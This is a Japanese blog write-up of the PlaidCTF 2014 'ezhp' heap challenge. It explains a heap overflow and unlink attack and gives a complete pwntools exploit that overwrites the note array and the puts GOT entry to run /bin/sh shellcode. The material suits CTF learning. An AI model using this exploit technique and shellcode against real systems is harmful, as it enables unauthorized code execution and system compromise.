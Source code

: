 ```yaml
---
layout: post
redirect_from:
  - /blog/2016/08/17/plaidctf-2014-ezhp/
date: "2016-08-17T00:43:10+09:00"
tags: [ "writeup", "ctf", "pwn", "heap", "plaidctf" ]
"target_url": [ "https://github.com/ctfs/write-ups-2014/tree/master/plaid-ctf-2014/ezhp" ]
---
```


# PlaidCTF 2014 ezhp

heap問のrevは疲れる。
キャンプの夜の短い自由時間に挑んだのだが、それで解くのは私には厳しかったので後から時間で殴った。

## solution

heap上の単なる文字列として表現されるノートを作成/修正/削除/表示できるプログラム。
簡易な独自実装heapを持ち、heap上buffer overflowの脆弱性がある。
ノートの修正でbuffer overflowさせ、ノートの削除でheap unlink attackして適当にどこかを書き換え、GOT overwriteなりでshellcodeを踏めばよい。


strippedなのでrevする。
問題となるのは`0x8048708 <myfree>`だけであるので、`0x804858b <myalloc>`の側はあまり読まなくてよい。
簡易な実装ではあるが双方向連結listの操作は通常通りであり、

``` c
    if (bk) bk->fd = fd;
    if (fd) fd->bk = bk;
```

は(chunkの大きさによらず)行われているので、これを用いて適当な領域への書き込みを行う。
global変数として存在するノートの配列`char *g_notes[]`あたりを書き換えてしまえば、あとはノートの修正部分で楽にshellが取れる。RELROもNX bitもない。

## implementation

``` python
#!/usr/bin/env python2
from pwn import * # https://pypi.python.org/pypi/pwntools
context.log_level = 'debug'

g_notes  = 0x804a060 # char *g_notes[]
puts_got = 0x804a008

# http://shell-storm.org/shellcode/files/shellcode-811.php
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80'

p = process('./ezhp')

def add_note(size):
    p.recvuntil('Please choose an option.')
    p.sendline('1') # add a note
    p.recvuntil('Please give me a size.')
    p.sendline(str(size))

def remove_note(id):
    p.recvuntil('Please choose an option.')
    p.sendline('2') # remove a note
    p.recvuntil('Please give me an id.')
    p.sendline(str(id))

def change_note(id, data):
    p.recvuntil('Please choose an option.')
    p.sendline('3') # change a note
    p.recvuntil('Please give me an id.')
    p.sendline(str(id))
    p.recvuntil('Please give me a size.')
    p.sendline(str(len(data)))
    p.recvuntil('Please input your data.')
    p.send(data)

# make notes
add_note(11) # 0
add_note(11) # 1
add_note(11) # 2

# send payload to heap
payload = ''
payload += 'AAAA' # heap + 0x18
payload += 'AAAA'
payload += 'AAA\0'
payload += p32(0x19)
payload += p32(0xaaaaaaaa) # p32(heap + 0x3c)
payload += p32(0xbbbbbbbb) # p32(heap + 0x0c)
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0x19)
payload += p32(g_notes) # p32(heap + 0x54)
payload += p32(g_notes - 4) # p32(heap + 0x24)
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0x3b8)
payload += p32(0)
payload += p32(0xcccccccc) # p32(heap + 0x3c)
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0)
payload += p32(0)
change_note(0, payload)

# write &g_notes[0] into g_notes[0]
remove_note(2)

# rewrite g_notes entries
payload = ''
payload += p32(g_notes)
payload += p32(puts_got)
payload += shellcode
change_note(0, payload)

# jump to the shellcode
change_note(1, p32(g_notes + 8))

time.sleep(1)
p.sendline('id')
p.interactive()
```
